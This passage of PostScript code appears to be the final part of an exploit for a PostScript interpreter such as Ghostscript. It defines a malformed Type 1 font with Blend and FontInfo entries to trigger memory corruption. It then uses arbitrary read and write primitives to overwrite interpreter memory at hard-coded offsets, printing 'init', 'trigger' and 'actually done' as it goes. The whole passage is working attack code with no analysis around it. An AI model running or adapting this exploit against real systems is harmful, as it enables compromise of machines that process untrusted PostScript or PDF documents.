    /buf3 8 string def
    ptr4 buf3 arbrd

    /buf4 buf3 512 ptradd def

    ptr3 buf4 arbwr

    /ptr5 ptr3 -8 ptradd def
    ptr5 <02504c0000000000> arbwr

    /ptr6 ptr3 16 ptradd def
    ptr6 <784b4c0000000000> arbwr

    /ptr7 ptr3 24 ptradd def
    /buf5 8 string def
    ptr3 749546 ptradd buf5 arbrd
    ptr7 buf5 arbwr

    /ptr8 ptr3 32 ptradd def
    /buf6 8 string def
    ptr3 749554 ptradd buf6 arbrd
    ptr8 buf6 19 ptradd arbwr

    /ptr9 ptr3 72 ptradd def
    ptr9 <01000000504b4c00> arbwr

    /ptr10 ptr3 80 ptradd def
    ptr10 buf5 42496 ptradd arbwr

    buf4 -190688 ptradd <01> arbwr

    (actually done) = flush

    quit
} def  % DONE

/MAIN {

/Myfont
<<
    /FontName /Myfont
    /FontType 1
    /FontMatrix [1 0 0 1 0 0]
    /Private << /lenIV -1 /Subrs [ <0E> ] >>
    /Decoding 0
    /Encoding [ /cs0 /cs1 /cs2 ]
    /CharStrings <<
        /.notdef <0E>
        /cs0 { TEXT 0 1 put /TARGET 312500 array def TARGET REFIDX OBJARR put }
        /cs1 <0E>
        /cs2 { DONE }
    >>
    /WeightVector [1]
    /$Blend {}
    /FontInfo <<
        /BlendAxisTypes [ /foo ]
        /BlendDesignPositions [[1]]
        /BlendDesignMap [[[1]]]
        /GlyphNames2Unicode << >>
    >>
    /Blend <<
        /FontBBox [[1]]
        /Private << >>
    >>
>>
.buildfont1
/FONT exch def
/FONTNAME exch def

FONT setfont

(init) = flush

/TEXT 625000 string def
/SOURCE2 4000002 string def
/SOURCE1 4000002 string def
SOURCE2 REFOFS <7e12> putinterval

FONT /FontInfo get /GlyphNames2Unicode get 1 SOURCE1 put
FONT /CharStrings get /.notdef undef
TEXT 0 0 put
TEXT 1 2 put

(trigger) = flush

0 750 moveto
TEXT show

} def  % MAIN

MAIN
quit
```